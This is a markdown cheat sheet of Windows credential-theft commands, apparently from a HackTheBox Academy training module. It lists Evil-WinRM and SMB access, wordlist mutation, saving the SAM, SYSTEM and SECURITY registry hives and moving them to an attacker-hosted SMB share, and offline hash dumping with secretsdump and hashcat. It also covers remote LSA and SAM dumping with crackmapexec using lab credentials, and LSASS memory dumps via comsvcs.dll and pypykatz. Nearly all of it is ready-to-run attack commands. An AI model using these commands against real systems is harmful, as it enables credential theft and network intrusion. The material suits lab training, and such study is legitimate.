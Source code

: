 ### **Connecting to Target**
1. Uses Evil-WinRM to establish a Powershell session with a target: `evil-winrm -i <ip> -u user -p password`
2. Uses smbclient to connect to an SMB share using a specified user: `smbclient -U user \\\\<ip>\\SHARENAME`
3. Uses smbserver.py to create a share on a linux-based attack host. Can be useful when needing to transfer files from a target to an attack host: `python3 smbserver.py -smb2support CompData /home/<nameofuser>/Documents/`
## **Password Mutations**
1. Uses cewl to generate a wordlist based on keywords present on a website: `cewl https://www.inlanefreight.com -d 4 -m 6 --lowercase -w inlane.wordlist`
2. Uses Hashcat to generate a rule-based word list: `hashcat --force password.list -r custom.rule --stdout > mut_password.list`
3. Users username-anarchy tool in conjunction with a pre-made list of first and last names to generate a list of potential username: `./username-anarchy -i /path/to/listoffirstandlastnames.txt`
4. Uses Linux-based commands curl, awk, grep and tee to download a list of file extensions to be used in searching for files that could contain passwords: `curl -s https://fileinfo.com/filetypes/compressed | html2text | awk '{print tolower($1)}' | grep "\." | tee -a compressed_ext.txt`
## **Attacking SAM**
1. Using reg.exe save to Copy Registry Hives:
    1. `reg.exe save hklm\sam C:\sam.save`
    2. `reg.exe save hklm\system C:\system.save`
    3. `reg.exe save hklm\security C:\security.save`
2. Creating a Share with smbserver.py: `sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/`
3. Moving Hive Copies to Share: 
    1. `move sam.save \\10.10.15.16\CompData`
    2. `move security.save \\10.10.15.16\CompData`
    3. `move system.save \\10.10.15.16\CompData`
4. Dumping Hashes with Impacket's secretsdump.py: `ython3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL`
5. Running Hashcat against NT Hashes: `sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt`
## **Remote Dumping & LSA Secrets Considerations**
With access to credentials with local admin privileges, it is also possible for us to target LSA Secrets over the network.
1. Dumping LSA Secrets Remotely: `crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa`
2. Dumping SAM Remotely: `crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam`
## **Dumping LSASS Process Memory**
#### **Task Manager Method**
1. Open Task Manager > Select the Processes tab > Find & right click the Local Security Authority Process > Select Create dump file
2. A file called lsass.DMP is created and saved in: `C:\Users\loggedonusersdirectory\AppData\Local\Temp`
#### **Rundll32.exe & Comsvcs.dll Method**
1. Finding LSASS PID in cmd: `tasklist /svc`
2. Finding LSASS PID in PowerShell: `Get-Process lsass`
3. Creating lsass.dmp using PowerShell: `rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full`
### **Using Pypykatz to Extract Credentials**
1. Running Pypykatz: `pypykatz lsa minidump /home/peter/Documents/lsass.dmp`
## **Attacking Active Directory & NTDS.dit**
1. Use [anrchy](https://github.com/urbanadventurer/username-anarchy) to convert real names into common username formats: `./username-anarchy -i /home/ltnbob/names.txt `